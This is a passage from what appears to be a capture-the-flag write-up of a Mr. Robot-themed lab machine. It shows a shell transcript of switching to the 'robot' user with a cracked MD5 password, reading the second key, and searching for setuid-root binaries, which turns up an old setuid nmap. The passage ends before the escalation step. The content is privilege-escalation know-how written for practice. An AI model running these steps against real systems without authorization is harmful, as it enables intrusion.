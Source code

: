 

A quick search revealed that the MD5 hash stands for `abcdefghijklmnopqrstuvwxyz`.

```console
daemon@linux:/$ su - robot
su - robot
Password: abcdefghijklmnopqrstuvwxyz

$ whoami
whoami
robot
$ sudo -l
sudo -l
[sudo] password for robot: abcdefghijklmnopqrstuvwxyz

Sorry, user robot may not run sudo on linux.
$ ls
ls
key-2-of-3.txt password.raw-md5
$ cat key-2-of-3.txt
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
```

We found two keys, let's go for the last one.

---

## 4\. Getting root

Searching for setuid binaries is the answer.

```console
$ find / -user root -perm -4000 2>/dev/null
find / -user root -perm -4000 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
$ /usr/local/bin/nmap --version
/usr/local/bin/nmap --version

nmap version 3.81 ( http://www.insecure.org/nmap/ )
```
